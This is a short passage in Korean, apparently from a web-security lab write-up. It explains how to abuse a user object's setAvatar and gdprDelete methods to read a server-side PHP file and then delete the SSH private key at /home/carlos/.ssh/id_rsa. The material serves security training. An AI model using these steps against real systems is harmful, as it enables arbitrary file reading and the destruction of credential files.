그래서 이 파일을 읽기 위해서 user.setAvator('/home/carlos/User.php', 'image/jpg') 로 설정후 요청을 보낸다. 
그럼, 아바타가 해당 파일로 설정이 되고, 이걸 보기 위해서 /avator?avator=wiener를 params로 붙여서 요청을 보낸다. 
그럼 해당 디렉토리를 열람할 수가 있다. 그리고 여기에서 user에 있는 다양한 메소드를 볼 수 있고, 이걸 쓰면 된다. 

여기서는 목표가 /.ssh/id_rsa 경로에 있는 파일을 삭제하는 것이었다. 
그러니, user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg') 이렇게 아바타를 파일로 설정을 하고, user 메서드에 있는 user.gdprDelete() 로 지워주면 된다. 

